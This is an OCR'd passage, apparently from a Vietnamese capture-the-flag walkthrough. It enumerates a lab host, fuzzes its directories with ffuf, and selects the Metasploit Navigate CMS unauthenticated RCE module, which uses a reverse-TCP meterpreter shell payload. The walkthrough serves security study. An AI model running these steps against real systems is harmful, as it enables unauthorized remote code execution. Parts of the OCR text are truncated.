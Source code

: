 [+]      PTR blackpearl.tcm 127.0.0.1

[+] 1 Records Found

thêm vhost vào /etc/hosts

ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u

navigate                [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 68ms]

vào link navigate thì biết được web dùng navigate cms

msfconsole -q

msf6 > search navigate cms

Matching Modules

================

#  Name                                 Disclosure Date  Rank       Check  Description

-  ----                                 ---------------  ----       -----  -----------

0  exploit/multi/http/navigate_cms_rce  2018-09-26       excellent  Yes    Navigate CMS Unauthenticated Remote Code Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/navigate_cms_rce

msf6 > use 0

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(multi/http/navigate_cms_rce) > options

Module options (exploit/multi/http/navigate_cms_rce):

Name       Current Setting  Required  Description

----       ---------------  --------  -----------

Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]

RHOSTS                      yes       The target host(s), see

ki/Using-Metasploit

RPORT      80               yes       The target port (TCP)

SSL        false            no        Negotiate SSL/TLS for outgoing connections

TARGETURI  /navigate/       yes       Base Navigate CMS directory path

VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

Name   Current Setting  Required  Description

----   ---------------  --------  -----------
